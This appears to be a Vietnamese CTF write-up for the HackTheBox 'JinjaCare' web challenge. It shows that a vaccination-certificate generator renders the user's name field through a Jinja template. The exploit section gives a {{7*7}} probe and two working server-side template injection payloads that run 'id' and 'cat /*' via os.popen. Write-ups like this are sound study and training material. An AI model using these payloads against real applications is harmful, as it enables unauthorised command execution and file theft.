






# 🏴‍☠️ CTF Writeup – [JinjaCare]

## 📌 Thông tin chung
- **Challenge:** JinjaCare 
- **CTF Event:** HackTheBox Challenges  
- **Category:** Web 
- **Difficulty:** Very Easy

---

## 📜 Mô tả đề bài
> Jinjacare is a web app for managing COVID-19 vaccination records, allowing users to view history and generate digital certificates. You're invited to identify security vulnerabilities in the system and retrieve the hidden flag from the application. 
- File/URL cung cấp: [Thử thách](https://app.hackthebox.com/challenges/JinjaCare)
- Thông tin thử thách :

---

## 🔎 Recon / Ý tưởng ban đầu
- Quan sát ban đầu: Đây là trang web mô phỏng thống kê về các mũi tiêm trong đợt dịch COVID với các chức năng chính:
    - Trang chính: Thông tin chung, download chứng chỉ
    - Quản lý trang cá nhân:
        - Thông tin cá nhân
        - Tiền sử bệnh lý 
        - Bản ghi Vaccin
- Các thử nghiệm đầu tiên:  
    - Kiểm tra thông tin của Cert
    
    - Thông tin người dùng
    
- Kết quả/ghi chú:  
    - Ở các nơi nhập đầu vào của trang web không thấy dữ liệu gửi phía server, chỉ có cập nhập thông tin và nhận chứng chỉ. Trong chứng chỉ có trường name có thể kiếm soát
---

## 🧩 Phân tích
- Giải thích lỗ hổng / kỹ thuật chính: 
    - Lỗ hổng có thể do trước khi genarate pdf sẽ được tạo từ 1 template và được nhúng trực tiếp tên người dùng để render lại PDF.
- Tại sao có thể khai thác:  
    - Dữ liệu đầu vào không được lọc và sử dụng template để tạo ra cert.

---

## 🚀 Khai thác / Giải pháp
- Các bước exploit:  
    - Thử `Name = {{7*7}}` để kiểm tra 
    - Kết quả:
    
    - Thử với các payload của Jinja Template `Name={{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}`
    - Kết quả:
    
    - `Payload={{request.application.__globals__.__builtins__.__import__('os').popen('cat /*').read()}}`
    - Kết quả:
    